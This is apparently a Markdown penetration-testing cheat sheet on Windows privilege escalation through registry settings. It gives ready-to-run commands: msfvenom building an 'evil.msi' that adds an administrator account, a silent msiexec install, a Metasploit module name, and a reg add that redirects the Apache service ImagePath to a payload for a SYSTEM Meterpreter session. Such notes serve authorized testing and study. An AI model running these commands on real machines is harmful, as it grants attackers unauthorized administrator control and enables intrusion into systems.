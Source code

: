 ## Registry

### AlwaysInstallElevated
* AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.

  ```
  [HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer]
“AlwaysInstallElevated”=dword:00000001

  [HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
  “AlwaysInstallElevated”=dword:00000001
  ```

* Check for these registry entries
  ```
  reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
  reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
  ```
  This will only work if both registry keys contain "AlwaysInstallElevated" with DWORD values of 1.

  *Note:*  If you happen to get an error message similar to: The system was unable to find the specified registry key or value, it may be that a Group Policy setting for AlwaysInstallElevated was never defined, and therefore an associated registry entry doesn’t exist.

* If AlwaysInstallElevated is enabled for both the local machine and the current user, we can proceed to utilize MSFVenom to generate an MSI file that, when executed on the victim machine, will add a user to the Local Administrators group:
  ```
  msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o evil.msi
  ```

* Now run the installation via the commandline:
  ```
  msiexec /quiet /qn /i C:\evil.msi
  ```
  - `/quiet` = Suppress any messages to the user during installation
  - `/qn` = No GUI
  - `/i` = Regular (vs. administrative) installation

* Metasploit Module
  ```
  exploit/windows/local/always_install_elevated
  ```

### Insecure Registry Permissions

Not very common due to the fact that write access to the services registry key is granted only to Administrators by default.

* Registry keys for the services that are running on the system can be found in the following registry path:
  ```
  HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services
  ```

* If a standard user has permissions to modify the registry key “ImagePath” which contains the path to the application binary then he could escalate privileges to system as the Apache service is running under these privileges.

* The only thing that is required is to add a registry key that will change the ImagePath to the location of where the malicious payload is stored.
  ```
  > reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Apache" /t REG_EXPAND_SZ /v ImagePath /d "C:\xampp\pentestlab2.exe" /f
  ```

* The next time that the service will restart, the custom payload will be executed instead of the service binary and it will return back a Meterpreter session as SYSTEM.

